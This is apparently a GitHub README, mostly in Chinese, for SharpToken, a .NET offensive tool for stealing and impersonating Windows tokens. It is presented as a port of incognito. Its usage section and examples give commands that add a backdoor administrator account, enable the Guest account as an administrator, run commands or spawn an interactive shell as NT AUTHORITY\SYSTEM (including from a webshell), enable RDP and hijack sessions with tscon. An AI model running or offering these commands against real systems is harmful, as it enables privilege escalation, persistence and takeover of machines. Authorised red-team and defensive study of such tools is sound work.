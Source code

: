 # SharpToken


.NET版本的incognito

![image](https://user-images.githubusercontent.com/43266206/176751034-a6f46325-d221-407b-a50c-281862a17ea1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

Usage:

SharpToken COMMAND arguments

COMMANDS:

	list_token [process pid]	

	list_all_token [process pid]

	add_user    <username> <password> [group] [domain]

	enableUser <username> <NewPassword> [NewGroup]

	delete_user <username> [domain]
    
	execute <tokenUser> <commandLine> [Interactive]

	enableRDP

	tscon <targetSessionId> [sourceSessionId]


example:
    SharpToken list_token
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken tscon 1


```


## 枚举Token

枚举的信息包括SID,LogonDomain,UserName,Session,LogonType,TokenType,TokenHandle(Duplicate后的Token句柄),TargetProcessId(Token来源的进程),TargetProcessToken(Token在源进程的句柄)，Groups(Token用户所在组)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## 从指定进程枚举Token

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## 获得交互式shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## 获取命令执行结果(webshell下执行)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)
